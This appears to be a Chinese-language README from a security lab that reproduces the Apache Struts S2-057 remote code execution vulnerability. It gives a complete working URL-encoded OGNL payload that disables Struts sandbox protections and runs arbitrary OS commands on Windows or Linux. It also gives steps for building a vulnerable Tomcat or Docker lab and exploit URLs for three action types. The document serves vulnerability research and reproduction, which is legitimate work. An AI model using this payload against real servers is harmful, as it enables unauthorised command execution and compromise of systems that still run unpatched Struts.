 # S2-057本地测试与复现

FN@悬镜安全实验室

## POC

测试发现结合S2-045构造的POC堪称完美，linux和windows通用，应该可执行任意命令，返回格式舒服且无乱码，当然是根据各位大佬的poc自行测试构造的，适用于Struts 2.3.34，而Struts 2.5.16的poc还没测试成功，等大佬们的poc吧

```
$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23cmd%3D'whoami').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe','/c',%23cmd%7D%3A%7B'/bin/bash','-c',%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())).(%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream(),%23ros)).(%23ros.flush())%7D
```

注意：/不能编码为%2f，这个坑了好久

## 漏洞环境

war包：

https://archive.apache.org/dist/struts/2.5.16/struts-2.5.16-all.zip

https://archive.apache.org/dist/struts/2.3.34/struts-2.3.34-all.zip 

其中的struts2-showcase.war，当然这里也提供了对应的war包

- windows

tomcat+war即可

修改对应的\WEB-INF\classes\struts-actionchaining.xml

原：

```
<struts>
	<package name="actionchaining" extends="struts-default" namespace="/actionchaining">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="chain">actionChain2</result>		
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result>/WEB-INF/actionchaining/actionChainingResult.jsp</result>
		</action>
	</package>
</struts>
```

修改为：

```
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="chain">
                <param name = "actionName">register2</param>
            </result>
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">xxx</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result type="postback">
                <param name = "actionName">register2</param>
            </result>
		</action>
	</package>
</struts>
```

访问：

http://localhost:8080/S2-057-2-5-16/${(111+111)}/actionChain1.action

http://localhost:8080/S2-057-2-3-34/${(111+111)}/actionChain1.action

跳转并计算表达式，漏洞环境搭建成功

- linux

使用p牛的vulhub，当然需要修改配置。

https://github.com/vulhub/vulhub/tree/master/struts2/s2-015

需要修改Dockerfile和拷贝相应war文件和xml文件

```
COPY S2-057-2-3-34.war /usr/local/tomcat/webapps/S2-057-2-3-34.war
COPY S2-057-2-5-16.war /usr/local/tomcat/webapps/S2-057-2-5-16.war
COPY vul.xml /usr/local/tomcat/webapps/struts-actionchaining.xml
```

启动：docker-compose up -d

然后需要进入docker

docker ps

docker exec -i -t [CONTAINER_ID] /bin/bash

docker内执行：

```
cd /usr/local/tomcat/webapps
cp struts-actionchaining.xml S2-057-2-3-34/WEB-INF/classes/struts-actionchaining.xml
#cp struts-actionchaining.xml S2-057-2-3-34/WEB-INF/src/java/struts-actionchaining.xml
cp struts-actionchaining.xml S2-057-2-5-16/WEB-INF/classes/struts-actionchaining.xml
#cp struts-actionchaining.xml S2-057-2-5-16/WEB-INF/src/java/struts-actionchaining.xml
cd /usr/local/tomcat/bin
./shutdown.sh
```

会自动退出docker，然后再次docker-compose up -d，不能docker-compose down，不然得重新进入docker配置

访问

http://IP:8080/S2-057-2-3-34/$%7B(111+111)%7D/actionChain1.action

http://IP:8080/S2-057-2-5-16/$%7B(111+111)%7D/actionChain1.action

跳转并计算表达式说明搭建成功

注意：

如果需要重新创建容器，需要先删除相应的镜像

docker images

docker rmi image_id


## 漏洞复现

只提供了windows下的部分截图，linux也复现成功了的，不过未再提供截图

1.Redirect action

http://HOST/S2-057-2-3-34/POC/actionChain1.action

表达式验证在返回头Location里，poc命令执行回显在body里

![image](https://github.com/Fnzer0/S2-057-poc/blob/master/Redirect-dir.jpg)

2.Chain action

http://HOST/S2-057-2-3-34/POC/actionChain2.action

无回显，无跳转，应该是xml中该action配置的原因，命令执行成功，回显在body里

![image](https://github.com/Fnzer0/S2-057-poc/blob/master/Chain-dir.jpg)

3.Postback action

http://HOST/S2-057-2-3-34/POC/actionChain3.action

验证和回显都在body，form的形式

![image](https://github.com/Fnzer0/S2-057-poc/blob/master/Postback-echo.jpg)

## 参考

[S2-057 远程命令执行漏洞复现](https://mp.weixin.qq.com/s/H6bLuXS8qCVRh1mSgAkdXQ)

[S2-057技术分析](https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483698&idx=1&sn=1b79bb4bd7d5b1173043d0c5c8335320)

[【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

https://github.com/jas502n/St2-057

https://lgtm.com/blog/apache_struts_CVE-2018-11776

## TODO

1. Struts 2.5.16 poc
2. 其他版本测试
3. 通用检测脚本，发现有的脚本只检测了Redirect action的情况，看大佬们的介绍应该还存在其他情况
4. 实际测试
